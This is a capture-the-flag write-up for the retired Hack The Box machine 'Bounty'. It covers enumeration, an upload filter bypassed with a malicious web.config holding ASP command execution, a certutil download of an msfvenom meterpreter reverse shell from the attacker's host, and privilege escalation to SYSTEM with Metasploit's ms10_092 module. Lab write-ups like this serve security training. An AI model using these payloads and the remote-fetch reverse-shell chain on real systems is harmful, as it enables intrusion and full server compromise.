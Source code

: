 # Bounty

This is the write-up for the box Bounty that got retired at the 27th October 2018.
My IP address was 10.10.14.12 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.93    bounty.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bounty.nmap 10.10.10.93
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

On the web page is an image of "Merlin the Wizard" and nothing interesting in the HTML source code.
Lets search for hidden _aspx_ files with **Gobuster** as this is an IIS Windows server:
```markdown
gobuster -u http://10.10.10.93 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x aspx
```

It finds the path _/uploadedFiles_ and _/transfer.aspx_ where it is possible to upload files.
When uploading an _aspx_ file, it gets blocked but _jpg_ gets uploaded successfully.

Lets send the request to an HTTP proxy like **Burpsuite** to analyze it further.
By creating a list of extensions, we can fuzz which extensions are allowed:
```markdown
Send request to **Intruder** --> Add "§" to the _filename_ parameter --> Set created list of extensions as payload in the _Payload Options_ --> Start Attack
```

![Burpsuite Intruder results](bounty_web-1.png)

All of the files response back with _HTTP code 200 OK_ but the only one that has a different length is the _config_ extension.
This different length is because it responses with  _"File uploaded successfully"_.

It is possible to [upload a web.config file to gain RCE](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) when adding the ASPX code at the end of the file.
Lets copy the code and upload it to the box:
```markdown
<?xml version="1.0" encoding="UTF-8"?>
(...)
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

Files probably get uploaded to the _/uploadedFiles_ directory:
```markdown
http://10.10.10.93/UploadedFiles/web.config
```

There it shows _"3"_ which means it executed the code in the _web.config_ file and did math, so we got command execution and can upload files by modifying the code.

### Exploiting the web service

Creating a payload with **Msfvenom**:
```markdown
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.12 LPORT=9002 -f exe -o msfshell.exe
```

Starting the listener on **Metasploit**:
```markdown
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
msf5 exploit(multi/handler) > set LPORT 9002

msf5 exploit(multi/handler) > run
```

To upload files the Windows binary **certutil** will be used:
```markdown
<?xml version="1.0" encoding="UTF-8"?>
(...)
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("certutil -urlcache -split -f http://10.10.14.12:8000/msfshell.exe C:\\users\\public\\msfshell.exe")
o = cmd.StdOut.Readall()
Response.write(o)
%>
-->
```

If the upload is successful, we execute _msfshell.exe_:
```markdown
(...)
Set cmd = rs.Exec("cmd /c C:\users\public\msfshell.exe")
(...)
```

After executing the binary the listener in Metasploit will start a **meterpreter** session. When going into a `shell` and running `whoami`, it shows that this user is _merlin_.

## Privilege Escalation

The command `systeminfo` shows that there are no hotfixes installed, which means that it is possible to exploit any vulnerability.
To check which vulnerability to exploit, there is the _local_exploit_suggester_ from Metasploit:
```markdown
msf5 > use post/multi/recon/local_exploit_suggester

msf5 post(multi/recon/local_exploit_suggester) > set session 1

msf5 post(multi/recon/local_exploit_suggester) > run
```

There are five exploits that can be used to escalate the privileges and I will use **ms10_092_schelevator**:
```markdown
msf5 > use exploit/windows/local/ms10_092_schelevator

msf5 exploit(windows/local/ms10_092_schelevator) > set LHOST tun0
msf5 exploit(windows/local/ms10_092_schelevator) > set session 1

msf5 exploit(windows/local/ms10_092_schelevator) > run
```

After the exploit is done, it starts a session as _NT Authority\SYSTEM_!

